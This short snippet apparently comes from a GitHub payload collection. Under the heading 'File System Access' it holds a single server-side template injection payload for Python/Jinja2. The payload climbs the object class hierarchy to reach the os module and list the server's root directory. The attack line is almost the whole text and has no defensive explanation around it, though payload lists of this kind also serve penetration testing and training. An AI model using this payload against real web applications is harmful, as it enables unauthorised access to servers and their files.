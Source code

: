 # File System Access

{{''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].listdir('/')}}